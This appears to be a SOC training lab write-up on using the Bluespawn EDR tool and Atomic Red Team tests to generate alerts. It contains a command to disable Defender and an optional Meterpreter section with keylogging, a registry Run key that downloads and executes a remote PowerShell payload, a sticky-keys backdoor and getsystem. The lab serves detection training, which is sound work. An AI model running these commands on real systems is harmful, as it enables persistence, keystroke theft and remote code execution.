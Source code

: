 ```yaml
---
tags:
  - bluespawn
  - edr
  - lab-soc-core-skills
date: Feb 09, 2024
---
```


## Bluespawn

> _Disclaimer: The content, procedures, and materials provided in this lab are strictly for educational purposes. Any information acquired is intended solely for advancing knowledge in cybersecurity. All procedures outlined in this lab, along with the VM utilized, were developed and acquired from the [SOC Core Skills](https://www.antisyphontraining.com/on-demand-courses/soc-core-skills-w-john-strand/) course instructed by [John Strand](https://www.sans.org/profiles/john-strand/). It is emphasized that the knowledge gained here will not be applied for any unauthorized or malicious activities._

> In this lab, we're leveraging Bluespawn as a cost-effective alternative to full-fledged EDR systems like Cylance and Crowdstrike, which are typically expensive and not commonly accessible in educational settings. Developed by the University of Virginia, Bluespawn serves as a stand-in for an EDR system, effectively monitoring the system for anomalous behavior and flagging it for review. Despite its affordability, Bluespawn proves to be a valuable tool, particularly for educational purposes. Throughout the lab, we'll initiate Bluespawn and execute Atomic Red Team tests to deliberately trigger a variety of alerts, providing hands-on experience in identifying and responding to suspicious activity. This practical exercise equips participants with essential skills in threat detection and incident response within a simulated environment.

---

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

![](_attachments/Pasted%20image%2020240211033009.png)

Let's get started by opening a Terminal as Administrator:

![](_attachments/Pasted%20image%2020240211033031.png)

Now, let's open a command Prompt:

![](_attachments/Pasted%20image%2020240211033057.png)

Next, let’s change directories to tools and start Bluespawn:
C:\Users\adhd>`cd \tools`

C:\tools>`BLUESPAWN-client-x64.exe --monitor --level Cursory`

![](_attachments/Pasted%20image%2020240211033116.png)

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell Prompt:

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

PS C:\Users\adhd> `cd C:\AtomicRedTeam\invoke-atomicredteam\`

Then, install the proper yaml modules

PS C:\Users\adhd> `Install-Module -Name powershell-yaml`

PS C:\AtomicRedTeam\invoke-atomicredteam> `Import-Module .\Invoke-AtomicRedTeam.psm1`

![](_attachments/Pasted%20image%2020240211033136.png)

Now, we need to invoke all the Atomic Tests.

Special note...  Don't do this in production...  Ever.  Always run tools like Atomic Red Team on test systems.  We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode.  This is so you can see what the protection would have done, but it will allow the tests to finish.

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest All`

If you get any “file exists” questions or errors, just select Yes.

![](_attachments/Pasted%20image%2020240211033150.png)

It should look like this:

![](_attachments/Pasted%20image%2020240211033206.png)

Please note, there will be some errors when this runs.  This is normal.


Only let this run for about 120 seconds!!!  Kill it with Ctrl + c!!

You should be getting a lot of alerts with Bluespawn Switch tabs in your Terminal to see them:

![](_attachments/Pasted%20image%2020240211033223.png)


Now, let’s go back to the PowerShell prompt and clean up:

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest All -Cleanup`

It should look like this:

![](_attachments/Pasted%20image%2020240211033242.png)

### If you have more time

Feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands


Run commands

meterpreter > `keyscan_start`

meterpreter > `keyscan_dump`

![](_attachments/Pasted%20image%2020240211033300.png)


meterpreter > `shell`

C:\> `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f`

C:\>  `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"`

![](_attachments/Pasted%20image%2020240211033319.png)



meterpreter >`getsystem`

![](_attachments/Pasted%20image%2020240211033338.png)

![](_attachments/Pasted%20image%2020240211033358.png)
